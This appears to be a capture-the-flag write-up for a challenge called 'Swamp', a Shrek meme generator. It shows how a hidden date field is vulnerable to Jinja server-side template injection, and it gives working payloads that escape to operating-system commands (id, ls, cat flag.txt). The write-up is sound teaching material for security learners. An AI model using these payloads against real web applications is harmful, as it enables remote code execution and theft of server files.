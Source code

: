 # Write up for Swamp.

## Overview

This challenge has 1 flag. There is a website that makes a shrek meme given a text input. 
Our goal is to somehow get the flag off of the server.

### Flag 1

The text input is a red herring. Looking at the page source via inspect and the python source code,
we see the form has a hidden input that sends the current time. This input is vulnerable to exploition.
Inputting ```{{ 3*4 }}``` we see it responds with ```12``` in the network response of the image viewing page.
Thus we have code execution. But we still need to escape the context of jinja to have arbitary code execution.

Researching jinja exploits, we find the page

[https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3](https://github.com/dgtlmoon/changedetection.io/security/advisories/GHSA-4r7v-whpg-8rx3)

which has the injection template 

```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}```.

Using inpect to put this in the date part of the input form, we see it sends the output
in the response of image viewing page. Then we can send

```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}```

to get all files in the server's directory. We see that ```flag.txt``` is one of the files.
Finally, sending

```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}```

we get the flag.






